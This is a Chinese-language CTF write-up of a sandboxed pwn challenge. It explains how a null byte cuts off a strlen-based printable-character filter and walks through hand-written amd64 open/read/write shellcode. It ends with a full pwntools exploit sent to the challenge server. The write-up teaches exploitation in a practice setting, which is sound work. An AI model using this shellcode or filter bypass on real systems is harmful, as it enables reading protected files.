








## 总结：

通过这道题的学习与收获有：

1、strlen函数是可以被00给截断的，而shellcode本身执行的时候并不会因为00截断。

2、第一次手写open,read,write函数的汇编

3、push一个字符串的话，比如push 0x67616c66 （这个是flag），不足八字节，push的时候会自动填充00补全八字节，从而占满一个内存单元。

## 保护策略：




发现没开NX，那基本就是shellcode没跑了。

然后发现开启了沙箱，禁用了execve函数，那就考虑写一个orw的shellcode




## 程序分析：


由于这个main函数里面存在一个这个汇编指令，因此不能生成伪代码，那就只能读汇编了，好在程序也不复杂。




逻辑就是执行is_printable之后，去将eax与自身相与，如果eax的值为1，test执行之后的运算结果为1（标志寄存器的值为0,否则反之)如果标志寄存器的值为1，则jz指令进行跳转，跳转到loc_AC1函数，如果触发了该函数则程序直接结束，并不会触发call rax的指令，如果jz不进行跳转，则执行call rax（执行完lea之后，rax的值存放的就是read函数输入进去的内容，因此我们输入的时候直接布置shellcode即可）。

## 大致思路：

因此我们要触发call rax，就需要让loc_AC1函数的返回值为0。




而这个函数返回值为0的前提就是输入的内容ascii码必须要大于31，并且不能等于127。因为我们构造的shellcode经常会存在不可见字符，因此这里我起初考虑的是将写的shellcode转换成可见字符。

然后转换成可见字符发现，这个shellcode太长了。（下面是转换成可见字符之后的shellcode）




然后到这里就卡住了，参考了另一篇师傅的博客，发现strlen函数是可以被00截断的（我自己试了一下发现确实如此）

也就是说只要让shellcode中出现00，并且在00之前的是可见字符就ok了，因为strlen获取的长度就到00这里。




这个循环就不会再往后跑了，因此它不会对00后面的内容进行检查。在这里要说一下，**shellcode本身执行的话并不会被00截断，因为shellcode本身毕竟就是一堆机器码而已，CPU执行机器码的时候，才不管你什么00截断不截断呢，机器码是什么它就执行什么。真正会因为00而截断shellcode的其实是一些函数,比如strcpy这个函数。**

因此我们只需要让shellcode中尽早的出现00机器码即可

然后就是开始手动编写shellcode了。

## 手写orw-shellcode

首先我们要执行的如下的代码：

```python
open(flag_addr,0)
read(3,addr,0x50)#第一个参数是3，因为一个进程有默认的文件描述符0,1,2。当再打开新的文件之后，文件描述符就会以此类推的分配，因此上面open新打开的flag文件的文件描述符就是3
#至于这个addr，把读出来的flag放到哪，一会再说
write(1,addr,0x50)
```

接下来，就开始用汇编来实现上面的内容。

```assembly
open(flag_addr,0)
push 0x67616c66
push rsp
pop rdi
#上面这两步就是在传open的第一个参数，这个参数要是一个地址，这个地址要指向字符串'flag'
#执行完push 0x67616c66的时候，栈顶的内容就是字符串flag，而栈顶指针rsp就指向了这个flag，此时执行push rsp将指向flag的地址（也就是rsp）压栈，此时栈顶的内容就是那个指向flag的地址，然后再执行pop rdi
#将栈顶的这个内容弹给rdi，此时open的第一个参数就成为了指向flag的地址
push 0#这个push 0这里就会出现机器码00，用来截断strlen函数
pop rsi
push 2
pop rax
syscall

read(3,addr,0x50)
push 3
pop rdi
push rsp 
pop rsi
#上面这两步在完成read函数的第二个参数传参，此时压入栈的rsp，我并不知道这个地址是什么，只知道把这个地址给rsi的话，flag就会被写到这个地址里面，至于这个地址是什么，真的不重要，重要的是要保证接下来write的第二个参数也是这个地址即可，而我们要做的就是保证接下来的每一个push都要对应一个pop，这样栈顶始终就是给当初rsi的那个地址了。
push 0x50
pop rdx
push 0
pop rax
syscall

write(1,addr,0x50)
push 1
pop rdi
push rsp
pop rsi
#这个地方的push rsp pop rsi原理同上
push 0x50
pop rdx
push 1
pop rax
syscall

```

## EXP：

最后脚本的话有一点要注意一下。


这个地方有一个指令，它将把我们输入的payload的最后一字节改成0。（如下图）





这样的后果就是将我们的shellcode最后一个syscall给破坏了，因此我们在syscall后面随便再写个指令，syscall就是完整的了。

最后exp：

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
p=remote('node4.buuoj.cn',28435)
shellcode=asm('''
push 0x67616c66
push rsp
pop rdi
push 0
pop rsi
push 2
pop rax
syscall

push 3
pop rdi
push rsp
pop rsi
push 0x50
pop rdx
push 0
pop rax
syscall

push 1
pop rdi
push rsp
pop rsi
push 0x50
pop rdx
push 1
pop rax
syscall

nop
''')
print(hex(len(shellcode)))
p.send(shellcode)
p.interactive()

```


